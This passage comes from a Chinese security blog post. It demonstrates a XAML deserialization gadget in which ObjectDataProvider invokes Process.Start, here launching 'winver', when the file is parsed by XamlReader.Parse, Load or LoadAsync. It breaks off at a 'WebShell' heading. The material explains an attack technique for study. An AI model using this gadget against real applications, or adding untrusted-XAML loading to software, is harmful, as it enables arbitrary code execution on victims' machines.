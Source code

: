 笔者创建测试用例存储于 Dictionary2.xaml 如下代码，`ObjectType="{x:Type TypeName=local:Process }` 可省略 TypeName，另外资源检索键名 ResourceKey 也可以省略，`Source={StaticResource ResourceKey=obj}`

```xml
<Window
        xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
        xmlns:d="http://schemas.microsoft.com/expression/blend/2008"
        xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006"
        mc:Ignorable="d"
        xmlns:local ="clr-namespace:System.Diagnostics;assembly=System"
        Title="MainWindow" Height="450" Width="800">
    <Window.Resources>
        <ObjectDataProvider x:Key="obj" ObjectType="{x:Type local:Process }" MethodName="Start">
            <ObjectDataProvider.MethodParameters>"winver"</ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </Window.Resources>
    <Grid DataContext="{Binding Source={StaticResource obj}}">
        <Button Content="Button" HorizontalAlignment="Left" Margin="300.085,187.924,0,0" VerticalAlignment="Top" Width="139.599" Height="45.517"/>
    </Grid>
</Window>
```

```csharp
string xml = File.ReadAllText("../../Dictionary2.xaml");
XamlReader.Parse(xml);
```

上述代码运行后跟踪调用栈，发现调用了多个 Load 方法，注意到调用了 WpfXamlLoader 类的 Load 方法，发现是一个内部实现的类，不能直接在外部所用，只能通过 XamlReader.Loader 方法去实现调用

![](https://img1.dotnet9.com/2022/05/5908.png)

### XamlReader.LoadAsync

XamlReader 类提供了 3 种 Load 重载，另外还提供了 LoadAsync 异步方法，用于在大文件数据传输不影响程序主线程，可直接载入流转换为对象

```csharp
//Test:Load
string xml = File.ReadAllText("../../Dictionary2.xaml");
MemoryStream ms = new MemoryStream(System.Text.Encoding.Default.GetBytes(xml));
XamlReader.Load(ms);

//Test:LoadAsync
MemoryStream ms0 = new MemoryStream(System.Text.Encoding.Default.GetBytes(xml));
XamlReader xamlReader = new XamlReader();
xamlReader.LoadAsync(ms0);
```

![](https://img1.dotnet9.com/2022/05/5909.png)

## 0x06 WebShell
